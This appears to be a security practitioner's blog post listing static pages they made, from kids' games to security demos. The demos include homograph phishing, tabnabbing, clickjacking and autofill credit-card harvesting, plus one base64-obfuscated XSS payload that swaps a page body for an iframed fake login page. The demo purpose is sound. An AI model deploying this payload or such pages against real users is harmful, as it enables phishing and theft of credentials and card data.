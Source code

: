 ```yaml
---
title: "Useful static apps! (Updated)"
date: 2020-08-01T20:15:45+10:00
draft: false
---
```


Sometimes i make static pages for single purpose and they can be quite useful so i will just leave them here

### For security

Here  is a simple page to show case some useful Content Security Policy (CSP) tricks for protecting apps from XSS [https://cspdemo.surge.sh/](https://cspdemo.surge.sh/). I find sharing this page and some explanation get buy in from developers a lot quicker.

Here is my example to show why it is a good idea to host user's provided content, especially ones where user has full control over, SSRF/proxied-pages in a completely separated domain. Google is no exception: [http://webcache.googleusercontent.com/search?q=cache:https://cornmbank.com](http://webcache.googleusercontent.com/search?q=cache:https://cornmbank.com). This way cross origin policy will protect your web app from being attacked with XSS style attack.

Here is a fun XSS trick i had... This is useful when you notice your variable being injected/server-side render straight into an inline script code block [https://htmlweird.surge.sh/](https://htmlweird.surge.sh/). This trick mess with how browser first parse HTML document to figure out different HTML tags and not having any context about Javascript.

A fun fake login page: [https://cornmbank.com/fakelogin.html](https://cornmbank.com/fakelogin.html) you can either iframe it 
This is example to rewrite the html body and change it to our fakelogin page:
```
<img src=x onerror=eval(atob('ZG9jdW1lbnQuYm9keS5pbm5lckhUTUw9IjxpZnJhbWUgc3JjPVwiaHR0cHM6Ly9lYmZlLnB3L3NoYXJlZC9mYWtlbG9naW4uaHRtbFwiIHN0eWxlPVwid2lkdGg6MTAwJTsgaGVpZ2h0OjEwMHZoXCIgLz4i'))>
```

QRCode generator using js library https://ebfe.pw/shared/qr.html

My phishing page to show case IDN homograph attack: [https://cornmbank.com/](https://cornmbank.com/), it used to get internal ip ranges using webrtc but that seems to be broken nowand it uses a nice trick at the bottom to determine what social network you are logging into.

Open blank-Changing parent tab <-- does what it says:
[https://ebfe.pw/shared/changeparent.html](https://ebfe.pw/shared/changeparent.html)

```
<a href="https://ebfe.pw/shared/changeparent.html" target="_blank">https://ebfe.pw/shared/changeparent.html</a>
```

CSRF test page generates a csrf form submit page base off your "copy as curl command" from burp. Although under engagementtool you do have a generate cfrf PoC page anyway. :p Oh well, whateva [https://ebfe.pw/shared/csrfpage.html](https://ebfe.pw/shared/csrfpage.html)


Pikachu is a static page that would try to steal your autofill info. put ?debug=true at the end of the url to see how it work or ?cc=true and see if it can steal creditcard autofil stuffs
[http://ebfe.pw/shared/pikachu.html](http://ebfe.pw/shared/pikachu.html). Unfortunately chrome has made it more obvious by showing the drop down selection for autofill values.

This page used to clickjack your browser and make your facebook like a page about picklecat :)
[http://www.cornmbank.com/picklecat.html](http://www.cornmbank.com/picklecat.html). Unfortunately my picklecat page was removed and with the Chrome fix for SameSite, this may not be a problem sooner or later. That said, you could potentially modify the source to make an useful demo.


### Games for kids and adults =))

A cardgenerator app i made to create printable A4 pages of card game for security training (for the best experience, use cardstock paper): [https://cardgenerator.surge.sh/](https://cardgenerator.surge.sh/)

Same concept as above, i made a flashcard generator for my wife to use to teach childcare kids: [http://new-motion.surge.sh/](http://new-motion.surge.sh/)


StarRealm deck building game simple point counter [https://ebfe.pw/shared/star.html](https://ebfe.pw/shared/star.html)


Arm wrestling bible (Made after I lost at arm wrestling to a much bigger dude) [https://ebfe.pw/shared/wrestling.html](https://ebfe.pw/shared/wrestling.html)

A hangman game for kindies kid... with image hint after 6 wrong pick [https://wordplay.surge.sh](https://wordplay.surge.sh) - Although perhaps it is not suitable for children since it is..."hang man" ...

A text-to-speech scenario game for kids: [https://tinyadventure.surge.sh](https://tinyadventure.surge.sh). The idea is to act it out and follow the narative for each scenario.

### Randoms


Code Highlight using JS that you can use to copy to word document: [https://ebfe.pw/shared/highlight.html](https://ebfe.pw/shared/highlight.html)

QRCode generator using js library [https://ebfe.pw/shared/qr.html](https://ebfe.pw/shared/qr.html)

A cidr calculator page that include calculation for terraform cidrsubnet() function. [https://ebfe.pw/shared/highlight.html](https://ebfe.pw/shared/highlight.html)
